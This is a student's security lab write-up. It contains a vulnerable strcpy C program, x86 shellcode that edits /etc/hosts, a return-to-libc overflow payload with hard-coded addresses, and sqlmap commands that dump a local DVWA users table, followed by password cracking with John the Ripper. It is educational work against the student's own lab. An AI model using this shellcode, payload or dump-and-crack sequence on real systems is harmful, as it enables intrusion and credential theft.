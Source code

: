 # Lab #1,22110079, Van Cong Toan, INSE330380E_02FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**: Must conform to below structure:

- I will use a Docker container for this lab, and it will be mapped to my `seclabs` directory.
  ![image](https://github.com/user-attachments/assets/c64c27b7-0e6c-45bf-96b7-b0406fb1124e)
- After that, I will compile the `C assembly` program and the `C` program into executable code.
  ![image](https://github.com/user-attachments/assets/891e8cf2-0b0a-4c7e-b893-f9eeb0c93ad8)

- I will use an older version of bash and disable the random assignment of stack values.
  ![image](https://github.com/user-attachments/assets/3eddd851-b579-40a1-a60d-b969be28f163)

- The pwd of the sellcode
  ![image](https://github.com/user-attachments/assets/db1a17ba-f7b3-4607-a23a-053f21ae2b49)

- Create an environment variable named `my_path` and assign it the value of the path to the file `shellcode`
  ![image](https://github.com/user-attachments/assets/e0479b5b-ecd9-4378-acbf-6c46b51fcf25)

- Stack Frame
  ![image](https://github.com/user-attachments/assets/a1093eb6-8d6f-4720-8cdb-7e26e8afb2c4)

- I will locate the addresses of the `system` and `exit` functions, along with the string of the variable.
  ![image](https://github.com/user-attachments/assets/ab0060d8-395e-44cf-9bbe-37d3e912becd)

- Address value of system: `0xf7e50db0` will be inserted with format \xb0\x0d\xe5\xf7
- Address value of exit: `0xf7e449e0` will be inserted with format \xe0\x49\xe4\f7
- Address value of the string of env: `0xffffded7` will be inserted with format `\xd7\xde\xff\xff`
  **So the command will be :**

```python
 r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' '\xe0\x49\xe4\xf7' +  '\xd7\xde\xff\xff')")
```

![image](https://github.com/user-attachments/assets/a0566091-280b-4c30-830d-77a285eb5a48)

- Before Attack
  ![image](https://github.com/user-attachments/assets/d5b303bc-cf0e-4e9b-9183-ce27d5bd2398)

- After Attack
  ![image](https://github.com/user-attachments/assets/b1f4aa94-78b9-489d-8aa5-da66207425c7)

**Conclusion:** The buffer overflow vulnerability in the C program was effectively exploited through shellcode injection and return-to-libc techniques.

---

# Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

---

- Install dvwa
  ![image](https://github.com/user-attachments/assets/ceac24d5-59a5-4ca9-99ec-64f2b406be4b)

- Instal `sqlmap`
  ![image](https://github.com/user-attachments/assets/2e09dd4a-a4ed-4dbe-b248-b825c2e17ccf)
  ![image](https://github.com/user-attachments/assets/4371610e-9db7-42aa-89b2-b0adf73b18d7)

- To carry out this lab, we will set the DVWA security level to low.
  ![image](https://github.com/user-attachments/assets/4755229e-bf66-48a8-aa7f-cd683861fe8c)

- The cookie of web
  ![image](https://github.com/user-attachments/assets/cfcfcbc3-d230-45e1-8dfd-4fce7f2874d4)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

- run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=kdmmsrmp3voj7k0alb3e9bfgb6; security=low" --dbs` to get information about all available databases
  ![image](https://github.com/user-attachments/assets/c4e70c7c-f56d-4a4e-9abd-e4438a200511)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

- run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=kdmmsrmp3voj7k0alb3e9bfgb6; security=low" -D dvwa --tables` to get tables
  ![image](https://github.com/user-attachments/assets/75210d1b-b5b1-4bd0-95f4-1978d55055dc)

-run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=kdmmsrmp3voj7k0alb3e9bfgb6; security=low" -D dvwa -T users --dump` to get users information
![image](https://github.com/user-attachments/assets/da9fe137-2be8-47d4-a879-ab88f84c4fd5)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

- Install John the Ripper
  ![image](https://github.com/user-attachments/assets/ba36564c-6d50-48f0-a522-090489a89bd0)

- Save encrypted passwords to hashes.txt file
  ![image](https://github.com/user-attachments/assets/42b7257d-4b8b-42f5-bf90-2a2680f7bacc)
  ![image](https://github.com/user-attachments/assets/916366ac-440a-4f83-a4c0-c502311c67e9)

- Perform code translation
  ![image](https://github.com/user-attachments/assets/bb733ea9-4a5c-436e-a98c-da2fc22a1851)

